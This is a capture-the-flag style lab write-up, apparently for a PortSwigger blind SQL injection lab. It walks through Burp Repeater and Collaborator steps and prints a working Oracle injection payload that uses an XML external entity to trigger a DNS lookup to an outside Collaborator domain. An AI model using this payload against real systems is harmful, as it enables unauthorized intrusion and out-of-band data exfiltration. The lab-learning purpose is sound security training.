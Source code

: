 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0c8f9c66-4a4e-4986-809c-7f98925ddf02)

## Solution :

The payloads for each domain to perform a DNS lookup to an external domain.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/568c42f2-93d8-4a55-8fa9-ad774eeef678)

Query made - 

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'
```

Request captured -

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d9470386-e993-4095-9db8-67786c0f9813)


`Send this to Repeater`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ca5c93bf-8835-4671-8739-0371b4d10b02)


`Then Open the burp collaborator client, copy one of the domain provided` 

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/50679058-e287-42be-ae95-afafa4239c9f)

Then click on copy to clipbord option = `dxelsktl4a73xfpmfkhbfxj6fxlo9ex3.oastify.com` we need paste it in the payload which we are going to do.

Since we are unsure of the database we are working with, we attempt every payload listed on DNS lookup for every database.

So the first one will be  `Oracle`

For that the payload is 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)--
```

Then query will be changed by pasting the external  domain provided by collaborator would look like this

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' ' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "dxelsktl4a73xfpmfkhbfxj6fxlo9ex3.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c71e3347-c20a-4269-8930-999d6ca7b6d9)

Then ctrl+u to encode the payload.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/395341c4-9d93-4f1f-8cba-c682b68f4261)







